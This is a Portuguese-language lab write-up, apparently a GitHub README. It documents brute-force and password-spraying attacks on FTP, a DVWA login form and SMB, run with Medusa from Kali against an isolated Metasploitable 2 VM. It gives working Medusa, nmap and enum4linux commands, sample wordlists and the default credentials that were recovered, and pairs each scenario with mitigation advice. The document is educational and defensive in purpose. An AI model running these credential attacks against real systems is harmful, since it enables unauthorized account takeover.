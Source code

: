 *Desafio: Análise de Força Bruta com Kali, Medusa e Ambientes Vulneráveis
Este repositório documenta a execução de simulações de ataques de força bruta em um ambiente de laboratório controlado. O objetivo é compreender as mecânicas de ataque a diferentes serviços (FTP, Web, SMB) e, principalmente, exercitar e documentar as medidas de mitigação e defesa.

*Ferramentas Utilizadas:

Kali Linux: Distribuição para testes de penetração.

Medusa: Ferramenta de linha de comando para força bruta paralela.

Metasploitable 2: VM intencionalmente vulnerável (nosso alvo).

DVWA (Damn Vulnerable Web Application): Aplicação web vulnerável, usada aqui no Metasploitable 2.

Disclaimer: Todas as atividades foram realizadas em uma rede privada e isolada (VirtualBox Host-Only). As técnicas aqui descritas destinam-se exclusivamente a fins educacionais e de auditoria em ambientes autorizados.

1. Configuração do Ambiente
O laboratório foi configurado no VirtualBox com os seguintes componentes:

VM Atacante: Kali Linux (ex: 192.168.56.101)

VM Alvo: Metasploitable 2 (ex: 192.168.56.102)

Ambas as VMs foram configuradas para usar a mesma rede "Host-Only" (vboxnet0), garantindo que o tráfego ficasse contido e isolado da rede principal.

Os endereços IP foram identificados usando ip a no Kali e ifconfig no Metasploitable.

2. Cenários de Simulação e Mitigação
Foram utilizados wordlists simples para os testes, conforme detalhado na Seção 3.

Cenário A: Força Bruta em FTP (vsftpd no Metasploitable 2)
O serviço FTP (File Transfer Protocol) é um vetor comum de ataque, pois muitas vezes é configurado com credenciais padrão ou fracas.

A. Reconhecimento: Primeiro, validamos que a porta 21 (FTP) estava aberta no alvo:

Bash

nmap -sV 192.168.56.102
Resultado: Porta 21/tcp aberta, serviço vsftpd 2.3.4.

B. Execução (Medusa): Utilizamos o Medusa para testar uma lista de senhas (pass.txt) contra um usuário conhecido (msfadmin):

Bash

medusa -h 192.168.56.102 -u msfadmin -P wordlists/pass.txt -M ftp
-h: Host/Alvo

-u: Usuário único

-P: Caminho para a wordlist de senhas

-M: Módulo a ser usado (neste caso, ftp)

C. Resultado: O Medusa rapidamente identificou a credencial correta:

[SUCCESS] - HOST: 192.168.56.102 (ftp) USER: msfadmin PASS: msfadmin
D. Recomendações de Mitigação:

Senhas Fortes: Nunca use credenciais padrão. Implementar uma política de senhas robusta que exija complexidade e rotação periódica.

Account Lockout: Implementar ferramentas como fail2ban no servidor para banir automaticamente endereços IP que falhem na autenticação múltiplas vezes.

Protocolos Seguros: Desabilitar o FTP. Substituí-lo por protocolos criptografados como SFTP (SSH File Transfer Protocol) ou FTPS (FTP over SSL/TLS).

Princípio do Menor Privilégio: Se o FTP for absolutamente necessário, garantir que o usuário de login tenha permissões restritas (ex: chroot jail) e não possa executar comandos no sistema.

Cenário B: Força Bruta em Formulário Web (DVWA)
Muitos ataques de força bruta visam formulários de login em aplicações web.

A. Reconhecimento: Acessamos o DVWA (http://192.168.56.102/dvwa/login.php) e definimos a segurança como "Low" para o teste. Inspecionando o código-fonte da página de login, identificamos os parâmetros do formulário:

URL da Ação (POST): login.php

Campo de Usuário: username

Campo de Senha: password

Botão de Envio: Login

Mensagem de Falha: "Login failed"

B. Execução (Medusa): O Medusa possui um módulo web-form que pode ser customizado:

Bash

medusa -h 192.168.56.102 -U wordlists/users.txt -P wordlists/pass.txt -M web-form \
-m FORM:"/dvwa/login.php" \
-m PARAMS:"username=^USER^&password=^PASS^&Login=Login" \
-m DENY-SIGNAL:"Login failed"
-U e -P: Listas de usuários e senhas.

-m FORM: A página que recebe o POST.

-m PARAMS: O payload do formulário. ^USER^ e ^PASS^ são substituídos pelo Medusa.

-m DENY-SIGNAL: A string que indica uma falha de login.

C. Resultado: O Medusa testou as combinações e encontrou a credencial válida:

[SUCCESS] - HOST: 192.168.56.102 (web-form) USER: admin PASS: password
D. Recomendações de Mitigação:

Bloqueio de Contas: Implementar uma política que bloqueie a conta do usuário (ou o IP do atacante) após um número baixo de tentativas falhas (ex: 5 tentativas).

CAPTCHA: Utilizar CAPTCHA ou reCAPTCHA no formulário de login para impedir a automação por bots.

Autenticação de Múltiplos Fatores (MFA): A medida mais eficaz. Mesmo que a senha seja descoberta, o atacante não terá o segundo fator (ex: token, código de app).

Monitoramento e Alertas: Gerar alertas para picos de falhas de login, permitindo uma resposta rápida da equipe de segurança.

Cenário C: Password Spraying em SMB
Diferente da força bruta (1 usuário, N senhas), o Password Spraying (N usuários, 1 senha) é uma técnica furtiva para evitar o bloqueio de contas.

A. Reconhecimento (Enumeração de Usuários): Serviços como SMB (Server Message Block) podem vazar nomes de usuários. Ferramentas como enum4linux podem ser usadas para extrair uma lista de usuários válidos do sistema.

Bash

enum4linux -U 192.168.56.102
Resultado: Obtivemos uma lista de usuários, incluindo msfadmin, user, service, etc., que salvamos em wordlists/smb-users.txt.

B. Execução (Medusa): Simulamos um spray com uma senha comum (ex: "password") contra a lista de usuários descoberta:

Bash

medusa -h 192.168.56.102 -U wordlists/smb-users.txt -p 'msfadmin' -M smbnt
-U: Lista de usuários que descobrimos.

-p: Senha única que estamos "borrifando".

-M: Módulo smbnt (para SMB no Windows/Samba).

C. Resultado: A ferramenta identificou que o usuário msfadmin possuía a senha msfadmin.

[SUCCESS] - HOST: 192.168.56.102 (smbnt) USER: msfadmin PASS: msfadmin
D. Recomendações de Mitigação:

Políticas de Senha Fortes: Proibir senhas óbvias, comuns (como "password", "123456") ou sazonais (como "Verao2024!").

Monitoramento de Padrões: A defesa contra password spraying é difícil. Requer monitoramento avançado que detecte falhas de login em múltiplas contas originadas do mesmo IP em um curto período.

Endurecimento (Hardening): Restringir o acesso ao SMB (Porta 445) apenas a IPs confiáveis através de regras de firewall. Desabilitar o SMBv1, que é notoriamente inseguro.

Não vazar nomes de usuários: Configurar serviços (como SMB e SMTP) para não enumerar ou confirmar nomes de usuários válidos.

3. Arquivos de Exemplo (Wordlists)
Como parte do desafio, aqui estão as wordlists simples utilizadas.

wordlists/users.txt
root
admin
msfadmin
user
test
guest
wordlists/pass.txt
admin
root
password
123456
msfadmin
1234
qwerty
wordlists/smb-users.txt
(Lista obtida via enumeração na Fase C)

msfadmin
user
postgres
service
backup
4. Conclusões e Aprendizados
Ameaça Real: A facilidade e velocidade com que o Medusa obteve acesso a todos os serviços em "Low Security" demonstra o risco crítico que senhas fracas e configurações padrão representam.

Defesa em Camadas: Nenhuma medida de mitigação é suficiente sozinha. A segurança eficaz combina senhas fortes, monitoramento de falhas (como fail2ban), uso de protocolos seguros (SFTP), firewalls e ferramentas anti-automação (CAPTCHA/MFA).

Valor do Laboratório: Este ambiente controlado foi essencial para entender a perspectiva do atacante de forma segura e ética, o que é fundamental para construir defesas mais robustas.
